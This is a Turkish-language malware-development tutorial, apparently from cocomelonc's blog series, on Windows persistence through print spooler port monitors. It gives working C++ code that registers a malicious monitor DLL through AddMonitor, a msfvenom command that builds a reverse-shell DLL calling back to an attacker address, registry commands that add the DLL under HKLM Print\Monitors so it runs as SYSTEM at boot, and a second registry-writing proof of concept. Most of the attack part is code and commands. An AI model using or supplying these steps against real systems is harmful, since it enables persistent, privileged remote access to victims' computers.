 \newpage
\subsection{74. kötü amaçlı yazılım geliştirme: kalıcılık - bölüm 8. Bağlantı noktası monitörleri. Basit C++ örneği.}

![pers](./images/59/2022-06-20_19-35.png){width="80%"}    

Bu gönderi, kötü amaçlı yazılım kalıcılık tekniklerinden biri olan bağlantı noktası monitörleri üzerine yapılan kişisel araştırmaların bir sonucudur.    

### bağlantı noktası monitörleri (port monitors)

Bu gönderide Bağlantı Noktası Monitörü, Windows Yazdırma Biriktirici Hizmeti veya `spoolv.exe`'yi ifade etmektedir. Bir yazıcı bağlantı noktası monitörü eklerken, bir kullanıcı (veya saldırgan), *monitör* olarak hizmet eden rastgele bir DLL ekleyebilir.   

Bağlantı noktası monitörü eklemenin, yani kötü amaçlı DLL’inizi yerleştirmenin temelde iki yolu vardır: Kalıcılık için Kayıt Defteri aracılığıyla veya anında DLL yürütme için özel bir Windows uygulaması (`AddMonitor` işlevi) kullanarak.   

### monitör ekleme

Win32 API’yi, özellikle Yazdırma Biriktirici API’sinin `AddMonitor` işlevini kullanarak:    

```cpp
BOOL AddMonitor(
  LPTSTR pName,
  DWORD  Level,
  LPBYTE pMonitors
);
```

Sistem çalışırken rastgele bir monitör DLL’si eklemek mümkündür. Monitörü eklemek için yerel yönetici ayrıcalıklarına ihtiyacınız olacağını unutmayın.   

Örneğin, monitörümüzün kaynak kodu:    

```cpp
/*
monitor.cpp
windows persistence via port monitors
register the monitor port
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/19/malware-pers-8.html
*/
#include "windows.h"
#pragma comment(lib, "winspool")

int main(int argc, char* argv[]) {
  MONITOR_INFO_2 mi;
  mi.pName = "Monitor";
  mi.pEnvironment = "Windows x64";
  // mi.pDLLName = "evil.dll";
  mi.pDLLName = "evil2.dll";
  AddMonitor(NULL, 2, (LPBYTE)&mi);
  return 0;
}

```

Şu kodu derleyelim:

```bash
x86_64-w64-mingw32-g++ -O2 monitor.cpp -o monitor.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -lwinspool
```

![pers](./images/59/2022-06-20_08-17.png){width="80%"}    

Ayrıca, “kötü” DLL’imizi oluşturun:    

```bash
msfvenom -p windows/x64/shell_reverse_tcp \
LHOST=192.168.56.1 LPORT=4445 -f dll > evil2.dll
```

![pers](./images/59/2022-06-20_19-24.png){width="80%"}    

Kodun derlenmesi, sistemde kötü niyetli DLL'yi (`evil2.dll`) kaydedecek bir yürütülebilir dosya (benim durumumda `monitor.exe`) üretecektir.    

### "monitör" ekleme demosu

Dosyaları kopyalayın ve çalıştırın:

```powershell
copy Z:\2022-06-19-malware-pers-8\evil2.dll .\
copy Z:\2022-06-19-malware-pers-8\monitor.exe .\
.\monitor.exe
```

![pers](./images/59/2022-06-20_19-28.png){width="80%"}    

### kayıt defteri kalıcılığı (registry persistence)

Alt anahtar bağlantı noktası monitörlerinin bir listesi, şu düğüm içinde bulunabilir:   
`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors`     

Her anahtar, bir `Drivers` DLL içeren bir `REG_SZ` girişi içermelidir. Sistem başlangıcında, bu DLL'lerin her biri `SYSTEM` olarak çalıştırılacaktır.    

Öncelikle, kötü amaçlı işlemlerden önce alt anahtarları kontrol edin:   

```powershell
reg query \
"HKLM\System\CurrentControlSet\Control\Print\Monitors" \
/s
```

![pers](./images/59/2022-06-20_15-48.png){width="80%"}    

Ardından, `Meow` adlı bir alt anahtar ve `Driver` değeri ekleyin:   

```powershell
reg add \
"HKLM\System\CurrentControlSet\Control\Print\Monitors\Meow"
 /v "Driver" /d "evil2.dll" /t REG_SZ
reg query \
"HKLM\System\CurrentControlSet\Control\Print\Monitors"
 /s
```

![pers](./images/59/2022-06-20_18-17.png){width="80%"}    

Gördüğünüz gibi, her şey doğru şekilde tamamlandı. Ardından, kurbanın bilgisayarını yeniden başlatın:     

![pers](./images/59/2022-06-20_18-17_1.png){width="80%"}    

![pers](./images/59/2022-06-20_18-17_2.png){width="80%"}    

Ve birkaç dakikadan sonra:   

![pers](./images/59/2022-06-20_19-30.png){width="80%"}    

![pers](./images/59/2022-06-20_19-31.png){width="80%"}    

Hadi Process Hacker 2'de `Ağ (Network)` sekmesini kontrol edelim:    

![pers](./images/59/2022-06-20_19-34.png){width="80%"}    

Görüyoruz ki `evil2.dll`, `spoolsv.exe` (`PID: 4616`) tarafından erişiliyor ve sonunda bizim payload’umuzu çalıştıran `rundll32` sürecini başlatıyor, bu da saldırgana geri bağlantı başlatıyor:    

![pers](./images/59/2022-06-20_19-33.png){width="80%"}    

Deneylerin sonunda temizleme işlemi için aşağıdaki komutu çalıştırın:   

```powershell
Remove-ItemProperty -Path \
"HKLM:\System\CurrentControlSet\Control\Print\Monitors\
Meow" -Name "Driver"
```

![pers](./images/59/2022-06-20_21-22.png){width="80%"}    

Kayıt defteri kalıcılığı için "kirli PoC"im:   

```cpp
/*
pers.cpp
windows persistence via port monitors
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/19/malware-pers-8.html
*/
#include <windows.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // subkey
  const char* sk = 
  "\\System\\CurrentControlSet\\Control\\Print\\Monitors\\Meow";

  // evil DLL
  const char* evilDll = "evil.dll";

  // startup
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)sk, 0, NULL, REG_OPTION_NON_VOLATILE, 
  KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {

    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"Driver", 0, REG_SZ, 
    (unsigned char*)evilDll, strlen(evilDll));
    RegCloseKey(hkey);
  } else {
    printf("failed to create new registry subkey :(");
    return -1;
  }
    return 0;
}
```

Defcon 22 sırasında, Brady Bloxham bu kalıcılık tekniğini [gösterdi](https://defcon.org/images/defcon-22/dc-22-presentations/Bloxham/DEFCON-22-Brady-Bloxham-Windows-API-Abuse-UPDATED.pdf). Bu yöntem, Yönetici ayrıcalıkları gerektirir ve DLL’in diske kaydedilmesi gerekir.   
Hâlâ cevaplanması gereken soru, herhangi bir APT'nin bu tekniği gerçek saldırılarda kullanıp kullanmadığıdır.   

[Windows Print Spooler Service](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/7262f540-dd18-46a3-b645-8ea9b59753dc)    
[Defcon-22: Brady Bloxham - Getting Windows to Play with itself](https://defcon.org/images/defcon-22/dc-22-presentations/Bloxham/DEFCON-22-Brady-Bloxham-Windows-API-Abuse-UPDATED.pdf)    
[MITRE ATT&CK - Port Monitors persistence technique](https://attack.mitre.org/techniques/T1547/010/)    
[Github'taki kaynak kod](https://github.com/cocomelonc/2022-06-19-malware-pers-8)   
